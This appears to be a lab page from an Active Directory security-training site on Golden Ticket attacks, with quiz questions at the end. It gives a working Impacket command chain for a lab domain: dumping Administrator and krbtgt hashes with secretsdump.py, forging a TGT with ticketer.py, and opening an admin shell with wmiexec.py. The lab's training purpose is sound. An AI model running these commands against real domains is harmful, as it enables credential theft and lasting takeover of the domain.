

repository: netexperiments/wadsecurity · page: labs/multi-domain-attacks/GoldenTickets/index.html · generator: mkdocs

#Golden Tickets

Golden Tickets are a persistence attack in AD. They consist of TGTs that are forged by the attacker using the krbtgt's account hash, which is its secret use to create TGTs. If the attacker can retrieve this account's hash, the attacker can therefore forge a Kerberos TGT for any user with arbitrary information. Using this forged ticket, the attacker can then access domain services however he likes.

In order to retrieve the krbtgt's hash value, you'll need admin access to the domain. This can be achieved by performing previous attacks in this lab such as the ACL Abuse attack, the SAMAccountName spoofing attack, the NTLM relay to SMB attack, and more. If for some reason you weren't able to retrieve the administrator's hash values, run the following command, and take note of the hash value.

```
secretsdump.py -just-dc-user 'Administrator' north.altair.local/Administrator:Passw0rd@192.168.122.10 
```

To forge a Golden Ticket:
```
#retrieve the north.altair.local domain's SID
lookupsid.py -no-pass -hashes <admin:hashes> -domain-sids north.altair.local/Administrator@192.168.122.10 0
#get the krbtgt account hash
secretsdump.py -just-dc-user 'krbtgt' north.altair.local/administrator@192.168.122.10 -hashes <admin:hashes>
#example output
#[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:640464e963ce78864650de778a6b9c31:::
#in the command below, you must use the NT hash, which in the example output i gave you, is the second value (640464e963ce78864650de778a6b9c31)
ticketer.py -nthash <krbtgt's NTHash> -domain-sid <domain SID> -domain north.altair.local Administrator
#At this point you've crafted a golden ticket, a TGT referencing the administrator account, which can be used to access any service in the domain as the administrator, for a long period of time
export KRB5CCNAME=/your/dir/Administrator.ccache
#Create a shell session using the forged ticket with administrator permissions
wmiexec.py -k -no-pass north.altair.local/Administrator@captain.north.altair.local
whoami
```

!!! question
    What is a Golden Ticket in Active Directory?
??? success "Answer"
    A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) created using the krbtgt account’s NT hash. With it, an attacker can impersonate any user, including Domain Admins, and access domain resources at will.
!!! question
    Why is the krbtgt account hash required to forge a Golden Ticket?
??? success "Answer"
    The krbtgt account hash is the secret key the KDC uses to sign and validate TGTs. If an attacker has this hash, they can generate valid TGTs that the KDC will accept as legitimate.
!!! question
    How can an attacker retrieve the krbtgt account hash?
??? success "Answer"
    The attacker needs domain admin–level access to dump the krbtgt account credentials. This can be achieved through other attacks such as ACL abuse, SAMAccountName spoofing or NTLM relay to SMB.
